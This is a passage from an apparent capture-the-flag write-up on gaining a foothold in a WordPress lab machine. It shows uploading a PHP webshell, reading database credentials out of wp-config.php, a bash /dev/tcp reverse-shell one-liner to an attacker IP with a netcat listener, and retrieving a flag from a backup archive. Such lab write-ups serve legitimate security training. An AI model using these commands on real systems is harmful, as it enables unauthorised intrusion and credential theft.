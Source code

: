 ### Initial Foothold
`Gaining access to the box` <br/>
* The shell is uploaded to the location *http://blogger.thm/assets/fonts/blog/wp-content/uploads/2022/11/shell-1667918567.7365.php*
* I then used a tool I created [webshell](https://github.com/emiliohulbert/scripts/blob/main/webshell.py) to access the php webshell
	![images](/images/Blogger/8.jpg)
* Reading the `wp-config.php` file we find the following credentials
	![images](/images/Blogger/9.jpg)
* Below is a snippet of the information in the file
	```
	define('DB_NAME', 'wordpress');
	/** MySQL database username */
	define('DB_USER', 'root');
	/** MySQL database password */
	define('DB_PASSWORD', 'sup3r_s3cr3t');
	/** MySQL hostname */
	define('DB_HOST', 'localhost');
	```

* We can then establish a reverse netcat connection from the victim machine using */bin/bash -c 'bash -i >& /dev/tcp/192.168.49.241/8080 0>&1'* where 192.168.49.241 is the attacker machine, then listen for the connection on the attacker machine using `nc -vvlp 8080` 
![images](/images/Blogger/10.jpg)
* Checking the `/tmp` folder , we find the following content
```
www-data@ubuntu-xenial:~$ ls /tmp
backup.tar.gz
vmware-root
```
* The `backup.tar.gz` file looks interesting, extracting the file, we get the local flag.
```
www-data@ubuntu-xenial:~$ tar -xvf backup.tar.gz
local.txt
ㅤ
www-data@ubuntu-xenial:~$ ls
backup.tar.gz
local.txt
vmware-root
ㅤ
www-data@ubuntu-xenial:~$ cat local.txt
e0ce00f4126d0271c1f4eb3681cda8f0
ㅤ
www-data@ubuntu-xenial:~$
```
* Find files in the `home` directory 
```
$ find /home -type f 2>/dev/null
/home/james/local.txt
/home/james/.bashrc
/home/james/.bash_logout
/home/james/.profile
/home/vagrant/.bashrc
/home/vagrant/.mysql_history
/home/vagrant/.bash_logout
/home/vagrant/.profile
/home/vagrant/.bash_history
/home/ubuntu/.bashrc
/home/ubuntu/.bash_logout
/home/ubuntu/.profile
$ 
```
* Reading the first flag